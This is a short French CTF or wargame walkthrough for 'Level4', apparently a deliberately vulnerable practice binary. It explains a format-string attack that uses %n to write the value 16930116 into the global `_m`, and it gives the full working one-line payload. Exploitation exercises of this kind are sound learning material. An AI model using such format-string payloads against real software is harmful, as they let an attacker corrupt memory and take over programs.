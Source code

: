 ## Level4

Le concept est le même que pour le level précédent.
Cette fois, il faut que la globale `_m` ait la valeur `16930116`.

On écrit donc toujours sur l'adresse de `_m` et on utilise le champ pour écrire 16930112 chars, soit la valeur voulue moins les 4 octets de l'adresse. Dans notre cas `%n` ciblera la douzième valeur sur la pile.

`cat <(python -c 'print("\x10\x98\x04\x08" + "%16930112d" + "%12$n" )') - | ./level4`